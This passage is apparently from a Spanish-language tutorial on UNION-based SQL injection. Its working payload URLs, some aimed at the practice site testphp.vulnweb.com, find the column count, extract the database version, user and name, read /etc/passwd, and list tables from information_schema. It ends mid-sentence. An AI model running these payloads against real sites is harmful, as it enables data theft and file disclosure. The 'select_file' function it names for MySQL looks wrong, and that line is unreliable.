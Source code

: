### ENCONTRAR TABLAS E INFORMACION INTERESANTE

Ya sabemos como encontrar las columnas de una tabla, supongamos que encontramos que la tabla tiene 3 columnas:

```sql
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1 		# muestra error
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,2		# muestra error
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,2,3	# no muestra nada
```

Con el parametro `-` en el ID hacemos que nos refleje en el lado del cliente la respuesta de la query. Así que hay que marcar que nos refleje todas las columnas con el parámetro **(-)**. Ahora queremos que nos refleje un poco de informacion de la base de datos como:

- Version del DBMS
- Nombre de la base de datos
- Usuario actual de la base de datos.
- Leer algun fichero del servidor.

Las formas de obtener estos datos dependera del gestor de base de datos por la sintaxis:

```sql
#en mysql

@@user 						# usuario de la DB
select_file('/etc/passwd') 	# leer contenido de un archivo
version()					# obtener la version de la DBMS			
database()					# obtener el nombre de la base de datos
```

Estos valores lo podemos inyectar en los campos de las columnas de la tabla que descubrimos. Puede que no en todos devuelva pero eso hay que ir probando:

```http
http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,version(),@@user

http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,database()

```

### Obtener las tablas

Ya tenemos el nombre de la base de datos con la funcion **database()**.

Para obtener las tablas se deben agregar tres parámetros importantes **table_name**, **information_schema.table** y **limit** con esos parámetros podemos saber el nombre de las tablas en este caso iremos enumerando una a una en las columnas que se reflejan.

Para este caso **supongamos que existen 8 tablas** y **obviamente nosotros no lo sabemos** así que tocara enumerar una a una.

```http
http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,table_name,3+from+information_schema.tables+where+table_schema=database()+limit+0,1
```

o

